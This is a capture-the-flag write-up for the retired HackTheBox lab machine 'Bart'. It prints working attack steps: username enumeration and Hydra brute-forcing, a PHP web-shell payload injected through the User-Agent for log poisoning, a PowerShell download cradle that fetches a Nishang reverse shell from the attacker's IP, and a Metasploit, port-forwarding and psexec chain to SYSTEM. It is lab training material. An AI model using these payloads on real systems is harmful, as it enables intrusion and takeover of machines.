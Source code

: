 # Bart

This is the write-up for the box Bart that got retired at the 14th July 2018.
My IP address was 10.10.14.19 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.81    bart.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bart.nmap 10.10.10.81
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

The web page wants to automatically forward to _forum.bart.htb_ so after putting that into the _/etc/hosts_ file, the forwarding works.
It is built with **WordPress**, but all the default WordPress pages in the source are removed.

There are some potential usernames on the homepage, when looking at the mail addresses of _"Our Team"_ and one in the _"New employee"_ news:
- Samantha Brown _(s.brown)_
- Daniel Simmons _(d.simmons)_
- Robert Hilton _(r.hilton)_
- Daniella Lamborghini _(d.lamborghini)_

In the HTML source is a block of code commented out:
```markdown
(...)
<div class="name">Harvey Potter</div>
<div class="pos">Developer@BART</div>
(...)
<li><a class="mail" href="mailto:h.potter@bart.htb" target="_blank"><i class="fa">M</i></a></li>
(...)
```

The user _h.potter_ is the developer of the website and another potential username.

Lets search for hidden directories on the IP with **Gobuster**:
```markdown
gobuster -u http://10.10.10.81 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s 204,301,302,307
```

It finds the directory _/forum_ which is the site from before and the directory _/monitor_ with a login form:

![Monitor login form](https://kyuu-ji.github.io/htb-write-up/bart/bart_web-1.png)

### Getting Access to Development Tools

When using the _"Forgot password"_ feature, it asks for a username and after providing an incorrect one, it responds with _"The provided username could not be found"_ which can be used as a way to enumerate valid usernames.

After trying different variations of the developers name _(Harvey Potter)_, the username _harvey_ exists as the login form responded that it will send an email to reset the password.
As the request is protected with a **CSRF-token**, brute-forcing the password with tools is difficult.
In this case manually trying out different easy passwords work and the password of the user is his last name:
> potter

The login wants to forward to _monitor.bart.htb_, so also putting that into the _/etc/hosts_ file and the forwarding works.

On _Servers_ there is one entry for _internal-01.bart.htb_ that has to be put into the _/etc/hosts_ file to get to it:

![Server monitor](https://kyuu-ji.github.io/htb-write-up/barts/bart_web-2.png)

It forwards to another login form with the title _"[DEV] Internal Chat Login Form"_:

![Chat login form](https://kyuu-ji.github.io/htb-write-up/bart/bart_web-3.png)

The default credentials from before don't work, but luckily this is not protected with a **CSRF-token** and can be brute-forced with **Hydra**:
```markdown
hydra -l harvey -P /usr/share/wordlists/metasploit/common_roots.txt internal-01.bart.htb http-form-post "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password"
```

After a while the password for the username _harvey_ in this login form is found:
> Password1

It forwards to a chat program:

![Chat application](https://kyuu-ji.github.io/htb-write-up/bart/bart_web-4.png)

In the HTML source is a path in which this program seems to log into:
```markdown
(...)
xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
(...)
```

It is possible to browse to this path, but it shows nothing.
By changing the _filename_ parameter to _log.php_, the log file is readable via a **Local File Inclusion** and it logs our User-Agent:
```markdown
http://internal-01.bart.htb/log/log.php?filename=log.php&username=harvey
```
```markdown
[2021-01-01 21:25:29] - harvey - Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
```

### Log Poisoning

Lets send this to a proxy tool like **Burpsuite** to modify the HTTP request.
By changing our User-Agent to PHP code, it is possible to execute arbitrary code:
```markdown
GET /log/log.php?filename=log.php&username=harvey HTTP/1.1
Host: internal-01.bart.htb
User-Agent: <?php system($_REQUEST['test']); ?>
```
```markdown
# Response

system(): Cannot execute a blank command in
C:\inetpub\wwwroot\internal-01\log\log.php</b>
```

This is known as **Log Poisoning** and now it accepts code with the _test_ parameter, we created:
```markdown
GET /log/log.php?filename=log.php&username=harvey&test=whoami HTTP/1.1
Host: internal-01.bart.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
```
```markdown
# Response

[2021-01-01 21:31:54] - harvey - nt authority\iusr
```

It shows the result of `whoami`, so command execution works and uploading files and getting a reverse shell connection should be possible.
The _shell.ps1_ file is the script _Invoke-PowerShellTcp.ps1_ from the **Nishang scripts** with the following line at the bottom:
```markdown
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 9001
```

Uploading the file:
```markdown
GET /log/log.php?filename=log.php&username=harvey&test=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.19/shell.ps1')"
```

After URL-encoding the command and sending the request, the listener on my IP and port 9001 starts a reverse shell connection as _NT Authority\iusr_.

This box is a 64-bit machine but our process runs as a 32-bit process:
```markdown
\[environment]::Is64BitOperatingSystem
True
\[environment]::Is64BitProcess
False
```

Lets run **PowerShell from SysNative** to get a 64-bit process:
```markdown
GET /log/log.php?filename=log.php&username=harvey&test=C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.19/shell.ps1')"
```

After URL-encoding the command and sending the request, the listener on my IP and port 9001 starts a reverse shell connection as _NT Authority\iusr_ in a 64-bit process.

## Privilege Escalation

To get an attack surface, it is recommended to run any **Windows Enumeration Script**:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.19/PowerUp.ps1')

Invoke-AllChecks
```

It found credentials in the **Autologon** registry entry:
```markdown
[*] Checking for Autologon credentials in registry...

DefaultDomainName    : DESKTOP-7I3S68E
DefaultUserName      : Administrator
DefaultPassword      : 3130438f31186fbaf962f407711faddb
```

Even though this looks like a **MD5 hash**, it is not, it is the actual password for the machine.
If we could run `RunAs`, it would be possible to execute commands with higher privileges.

To connect to the box through **PSExec**, the port 445 (SMB) has to be open. This can be done by starting a **Meterpreter session** and forward the port to our local client.

Setup in **Metasploit**:
```markdown
use exploit/windows/smb/smb_delivery

set SHARE MyShare
set SRVHOST 10.10.14.19
set LHOST tun0
set LPORT 9002

exploit -j
```

Running the DLL file on the box to get a **Meterpreter** session:
```markdown
rundll32.exe \\10.10.14.19\MyShare\test.dll,0
```

Port forwarding port 445 (SMB):
```markdown
sessions -i 1

meterpreter > portfwd add -l 445 -p 445 -r 127.0.0.1
```

Running **Impackets PSexec** to connect to the box with the credentials:
```markdown
impacket-psexec Administrator:3130438f31186fbaf962f407711faddb@127.0.0.1
```

After running this, a shell session as _NT Authority\SYSTEM_ starts!
